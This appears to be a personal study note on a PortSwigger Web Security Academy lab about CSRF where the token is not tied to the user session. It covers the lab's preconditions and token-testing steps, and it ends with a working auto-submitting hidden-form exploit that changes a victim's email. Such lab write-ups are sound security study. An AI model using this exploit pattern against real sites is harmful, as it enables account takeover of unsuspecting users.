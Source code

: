 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session
---
```


# CSRF where token is not tied to user session
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`, `carlos:montoya`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - ***CSRF token is not tied to user session***

- **Testing CSRF Tokens:**
	1.  Remove CSRF token. and see if application accepts request.
	2. Change the request method from POST to GET.
	3. See if CSRF token is tied to a user session.

 - **Craft exploit**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display: none" name="csrf-iframe"></iframe>
		<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe">
			<input type="hidden" name="email" value="anything@normal-user.net" >
			<input type="hidden" name="csrf" value="YOUR-CSRF-Token" >
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

